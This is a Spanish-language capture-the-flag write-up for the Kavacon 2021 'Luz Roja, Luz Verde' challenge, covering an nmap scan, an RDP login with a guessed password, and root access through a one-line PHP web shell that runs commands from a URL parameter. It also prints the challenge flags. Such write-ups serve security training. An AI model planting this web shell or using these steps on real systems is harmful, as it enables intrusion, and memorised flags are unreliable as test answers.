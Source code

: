 ```yaml
---
title: "Kavacon 2021 – Luz Roja, Luz Verde"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/kavacon.png"
categories:
  - WriteUp
---
```



## USER

En primer llugar hacemos un nmap a la ip y obtenemos lo siguiente

```
 Nmap 7.91 scan initiated Wed Oct 20 11:01:58 2021 as: nmap -p22,80,135,139,443,445,3389,5040,49664,49665,49666,49667,49669,49674 -sCV -O -oN NMAP 10.4.4.153

Nmap scan report for 10.4.4.153
Host is up (0.068s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1b:96:83:6a:eb:95:f2:4e:a6:5c:7b:03:9f:11:ff:69 (RSA)
|   256 49:b1:af:d5:ab:62:68:18:17:dd:91:7d:d1:cf:24:68 (ECDSA)
|_  256 a3:28:50:54:b9:fa:f5:58:a7:20:3d:ba:08:e2:71:23 (ED25519)
80/tcp    open  http          Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was http://10.4.4.153/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was https://10.4.4.153/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 (91%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (90%), Microsoft Windows XP SP3 (88%), Microsoft Windows Server 2008 SP1 (88%), Microsoft Windows 10 (87%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-20T14:04:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 11:06:56 2021 -- 1 IP address (1 host up) scanned in 298.22 seconds
```

Al entrar a la web nos damos cuenta que es sobre «Juego del Calamar»

![Luz Roja, Luz Verde 1](/assets/images/post/2021/luzrojaluzverde_1.png)

De acuerdo a la serio uno se movía con Luz verde, por lo que escribimos «verde», con esto entramos a una web con los datos de nuestro jugador #3389 y podemos descargar la ficha, el jugador 3389 hace alusión al puerto 3389 visto en en nmap además de un potencial usuario «seong»

![Luz Roja, Luz Verde 2](/assets/images/post/2021/luzrojaluzverde_2.png) | ![Luz Roja, Luz Verde 3](/assets/images/post/2021/luzrojaluzverde_3.png)

Al tarducir el fichero nos dice que la contraseña es un numero de 4 digitos. En la serie, la contraseña de ATM era el numero del jugador por lo que se deduce que la contraseña es 3389 (mismo que el pueto RDP), se prueba y podemos entrar a remote desktop con el comando y obtenemos acceso con rdp y la flag

rdesktop -f -u "seong" -p 3389 <IP>

***flag{jug4r3m0smu3vet3luzv3rd3!!}***

## ROOT

Para root, se debe subir una web shell en php en la carpeta C:\xampp\htdocs\dashboard\ desde

```
<?php
    echo shell_exec($_GET['cmd']);
?>
```

Con esta web tenemos acceso como administrador y podremos ver la flag revisando en nuestra web con la extensión ?cmd=type C:\Users\admin\Desktop\admin.txt.txt

***flag{c0m0estamosmentalmente?}***



![Racso](https://www.hackthebox.com/badge/image/159593)
